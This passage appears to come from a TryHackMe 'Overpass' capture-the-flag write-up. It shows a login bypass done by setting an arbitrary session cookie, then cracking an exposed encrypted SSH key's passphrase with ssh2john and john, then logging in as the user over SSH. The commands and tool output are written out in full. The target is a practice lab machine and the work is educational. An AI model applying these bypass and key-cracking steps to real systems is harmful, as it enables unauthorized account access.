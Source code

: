 First I clear the data and cookies from my browser. Then using a cookie editor I add the session token with a random value.

![cookie](/assets/images/overpass/cookie.png)

Now when I refresh the page I'm logged in and find James's SSH key.

![key](/assets/images/overpass/key.png)

The key is encrypted so if I try and use it to log in it wont work unless I provide a password. I can use John to first get the hash and then crack to get the password. I coped the key to a text file called 'key', than ran ssh2john to get the hash. Then used john to crack it. 

```highlight
┌─[daz@parrot]─[~/Documents/TryHackMe/Overpass]
└──╼ $/usr/share/john/ssh2john.py key > hash
┌─[daz@parrot]─[~/Documents/TryHackMe/Overpass]
└──╼ $john --format=ssh hash
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 2 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Warning: Only 2 candidates buffered for the current salt, minimum 8 needed for performance.
Warning: Only 5 candidates buffered for the current salt, minimum 8 needed for performance.
Warning: Only 4 candidates buffered for the current salt, minimum 8 needed for performance.
Warning: Only 5 candidates buffered for the current salt, minimum 8 needed for performance.
Warning: Only 2 candidates buffered for the current salt, minimum 8 needed for performance.
Warning: Only 3 candidates buffered for the current salt, minimum 8 needed for performance.
Warning: Only 5 candidates buffered for the current salt, minimum 8 needed for performance.
Almost done: Processing the remaining buffered candidate passwords, if any.
Proceeding with wordlist:/usr/share/john/password.lst, rules:Wordlist
Proceeding with incremental:ASCII
{{REDACTED}}          (key)
```

Ive removed the password from the output but the password was cracked and I can now use that to log in. First I chmod 600 the key file so I can use it to log in.

```highlight
┌─[daz@parrot]─[~/Documents/TryHackMe/Overpass]
└──╼ $chmod 600 key
┌─[daz@parrot]─[~/Documents/TryHackMe/Overpass]
└──╼ $ssh -i key james@10.10.70.101
Enter passphrase for key 'key': 
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-108-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sat Sep 19 10:39:34 UTC 2020

  System load:  0.0                Processes:           88
  Usage of /:   22.4% of 18.57GB   Users logged in:     0
  Memory usage: 11%                IP address for eth0: 10.10.70.101
  Swap usage:   0%


47 packages can be updated.
0 updates are security updates.

```